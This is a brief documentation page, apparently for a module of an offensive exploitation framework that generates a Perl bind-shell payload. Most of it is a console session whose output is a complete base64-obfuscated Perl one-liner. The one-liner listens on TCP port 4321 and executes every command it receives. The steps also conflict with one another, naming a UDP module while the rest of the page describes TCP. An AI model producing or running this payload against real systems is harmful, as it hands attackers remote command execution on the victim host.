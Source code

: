 ## Description

Module generates payload that creates interactive tcp bind shell by using perl one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/perl_bind_udp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates perl tcp bind shell payload.

## Scenarios

```
rsf > use payloads/cmd/perl_bind_tcp
rsf (Perl Bind TCP One-Liner) > set rport 4321
[+] rport => 4321
rsf (Perl Bind TCP One-Liner) > run
[*] Running module...
[*] Generating payload
perl -MIO -e "use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKExvY2FsUG9ydCw0MzIxLFJldXNlLDEsTGlzdGVuKS0+YWNjZXB0OyR+LT5mZG9wZW4oJGMsdyk7U1RESU4tPmZkb3BlbigkYyxyKTt3aGlsZSg8Pil7aWYoJF89fiAvKC4qKS8pe3N5c3RlbSAkMTt9fTs='));"
```
